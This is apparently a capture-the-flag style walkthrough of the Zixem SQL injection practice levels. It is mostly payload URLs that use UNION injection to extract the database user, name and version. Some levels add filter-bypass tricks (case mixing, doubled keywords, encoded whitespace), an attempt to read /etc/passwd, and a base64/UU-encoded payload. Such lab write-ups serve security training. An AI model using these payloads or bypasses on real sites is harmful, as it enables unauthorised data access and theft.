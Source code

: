 # My SQL train Zixem 

## [lv1](https://www.zixem.altervista.org/SQLi/level1.php)

### Step 1: Check column table `id=-1`

`https://www.zixem.altervista.org/SQLi/level1.php?id=-1 union select 1,2,3-- -` 

### Step 2: Exploit

`https://www.zixem.altervista.org/SQLi/level1.php?id=-1 union select 1,user(),3-- -`  

=> Item ID: zixem@localhost 

`https://www.zixem.altervista.org/SQLi/level1.php?id=-1 union select 1,database(),3-- -`

=>Item ID: my_zixem

## [lv2](https://www.zixem.altervista.org/SQLi/level2.php)

### Step 1: Check column table `id=-1'`
`https://www.zixem.altervista.org/SQLi/level2.php?showprofile=-1' union select 1,2,3,4-- -`

### Step 2: Exploit
`https://www.zixem.altervista.org/SQLi/level2.php?showprofile=-1' union select user(),database(),3,4-- -`

## [lv3](https://www.zixem.altervista.org/SQLi/level3.php)

### Step 1: Check column table `item=-1'`
`https://www.zixem.altervista.org/SQLi/level3.php?item=-1' union select 1,2,3,4-- -`

Result : union is filtered => uni 
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'uni select user(),2,3,4-- -'' at line 1
```
Payload :
` https://www.zixem.altervista.org/SQLi/level3.php?item=-1' unionon select 1,2,3,4-- -`

### Step 2: Exploit
`https://www.zixem.altervista.org/SQLi/level3.php?item=-1' unionon select user(),database(),3,4-- -`

## [lv4](https://www.zixem.altervista.org/SQLi/level4.php)

### Step 1: Check column table  `ebookid=-1`

`https://www.zixem.altervista.org/SQLi/level4.php?ebookid=-1' union select 1,2,3,4,5-- -`

### Step 2: Exploit 
`https://www.zixem.altervista.org/SQLi/level4.php?ebookid=-1' union select user(),2,database(),@@version,5-- -`

## [lv7](https://www.zixem.altervista.org/SQLi/level7.php)

### Step 1: Check column table `id=-11` 
`https://www.zixem.altervista.org/SQLi/level7.php?id=-1 union select 1,2,3-- -`

Result: `value=ok2` 

![1](https://github.com/tinasahara1/Vulnerable-CTF-/blob/832008ae9bcba27139f82351931a1c0a0798533a/SQL/MySQL/image/level7_1.PNG)

### Step 2: Exploit 
`https://www.zixem.altervista.org/SQLi/level7.php?id=-11 union select 1,user(),3-- -`

![2](https://github.com/tinasahara1/Vulnerable-CTF-/blob/832008ae9bcba27139f82351931a1c0a0798533a/SQL/MySQL/image/level7_2.PNG)

## [lv8](https://www.zixem.altervista.org/SQLi/lvl8.php)

### Step 1: Check column table `id=-11`  
Test with payload :
`https://www.zixem.altervista.org/SQLi/lvl8.php?id=-1' union select 1,2,3-- -`

=> Hacking attempt 

It’s means that something is being filtered out => Now, We will find the filtered words :
1. select 
2. union 
The keywords are not allowed :
1. /**/
2. -- -
3. space 

Bypass : replace comment not allowed   => `;` or `#`

Bypass : space   => `%0c` or `%0d`

Bypass : union   => `UnioN`

Bypass : replace => `SELSELECTECT`

### Step 2: Exploit 
https://www.zixem.altervista.org/SQLi/lvl8.php?id=-1%0cUnioN%0cSELSELECTECT%0duser(),database(),3;


## [lv9](https://www.zixem.altervista.org/SQLi/lvl9.php)
> Mission:Display passwd file(/etc/passwd)
> 
### Step 1: Check column table `id=-1'` 
`https://www.zixem.altervista.org/SQLi/lvl9.php?id=1' union select 1,2,3-- -`

Result:
![lv9](https://github.com/tinasahara1/Vulnerable-CTF-/blob/c32937cc3fff8812b8d56ae3a4c3c02aa0d1bb44/SQL/MySQL/image/lv9_1.PNG)

I guess that url file will be located at `/membri/zixem/SQLi/etc/passwd`
But not !!!

Maybe at `/../../etc/passwd`
But still not !!!


Look at the displayed result error shown above , I see `/membri/zixem/SQLi/lvl9.php`
=> `/membri/zixem/etc/passwd ` or `../etc/passwd`  => OKE

### Step 2 : Exploit
`https://www.zixem.altervista.org/SQLi/lvl9.php?id=1' union select ('/membri/zixem/etc/passwd'),2-- -`

![lv9](https://github.com/tinasahara1/Vulnerable-CTF-/blob/c32937cc3fff8812b8d56ae3a4c3c02aa0d1bb44/SQL/MySQL/image/lv9_2.PNG)


## [lv10]()

### Step 1: Check column `x=ISwwYGAKYAo%3D`
url : `https://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D`
1. url decode        => `x=ISwwYGAKYAo=`
2. base64 decode     =>
```
!,0```
```
3. UU decode 

![lv10](https://github.com/tinasahara1/Vulnerable-CTF-/blob/636752f1364bf4470e59860542b109507b118b01/SQL/MySQL/image/lv10_1.PNG)


4. UU encode [tool](https://www.dcode.fr/uu-encoding)
![10](https://github.com/tinasahara1/Vulnerable-CTF-/blob/636752f1364bf4470e59860542b109507b118b01/SQL/MySQL/image/lv10_2.PNG)


5. base64 encode  [tool](https://www.base64encode.org/)
![10](https://github.com/tinasahara1/Vulnerable-CTF-/blob/636752f1364bf4470e59860542b109507b118b01/SQL/MySQL/image/lv10_3.PNG)


### Step 2: Exploit 
`https://www.zixem.altervista.org/SQLi/lvl10.php?x=RSszJEA9NllJO1ZYQDxWNUw5Ni1UKCc1Uzk3KEgqMlFEODcxQThGJVM5MkBJKzJUQCswYGA=`

![10](https://github.com/tinasahara1/Vulnerable-CTF-/blob/636752f1364bf4470e59860542b109507b118b01/SQL/MySQL/image/lv10_4.PNG)




[Tham khao payload White Hat](https://whitehat.vn/threads/bypass-waf-khai-thac-sql-injection.8523/)

[Owasp](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)
